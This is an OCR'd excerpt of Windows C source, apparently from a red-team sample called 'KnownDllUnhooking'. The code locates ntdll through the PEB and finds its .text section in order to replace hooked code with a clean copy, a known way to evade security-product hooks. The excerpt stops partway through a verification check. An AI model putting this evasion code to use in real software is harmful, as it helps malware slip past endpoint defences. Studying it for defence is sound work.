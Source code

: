 ```c
PVOID FetchLocalNtdllBaseAddress() {

#ifdef _WIN64
	PPEB pPeb = (PPEB)__readgsqword(0x60);
#elif _WIN32
	PPEB pPeb = (PPEB)__readfsdword(0x30);
#endif // _WIN64

	// Reaching to the 'ntdll.dll' module directly (we know its the 2nd image after 'KnownDllUnhooking.exe')
	// 0x10 is = sizeof(LIST_ENTRY)
	PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);

	return pLdr->DllBase;
}


BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {

	PVOID               pLocalNtdll     = (PVOID)FetchLocalNtdllBaseAddress();

	// getting the dos header
	PIMAGE_DOS_HEADER   pLocalDosHdr    = (PIMAGE_DOS_HEADER)pLocalNtdll;
	if (pLocalDosHdr && pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return FALSE;

	// getting the nt headers
	PIMAGE_NT_HEADERS   pLocalNtHdrs     = (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
	if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return FALSE;


	PVOID		pLocalNtdllTxt	= NULL,	// local hooked text section base address
			    pRemoteNtdllTxt  = NULL; // the unhooked text section base address
	SIZE_T		sNtdllTxtSize	= NULL;	// the size of the text section


	// getting the text section
	PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);

	for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {

		// the same as if( strcmp(pSectionHeader[i].Name, ".text") == 0 )
		if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {
			pLocalNtdllTxt	= (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
			pRemoteNtdllTxt	= (PVOID)((ULONG_PTR)pUnhookedNtdll + pSectionHeader[i].VirtualAddress);
			sNtdllTxtSize	= pSectionHeader[i].Misc.VirtualSize;
			break;
		}
	}

//---------------------------------------------------------------------------------------------------------------------------
	
	// small check to verify that all the required information is retrieved
	if (!pLocalNtdllTxt || !pRemoteNtdllTxt || !sNtdllTxtSize)
		return FALSE;

	// small check to verify that 'pRemoteNtdllTxt' is really the base address of the text section
	if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt)
```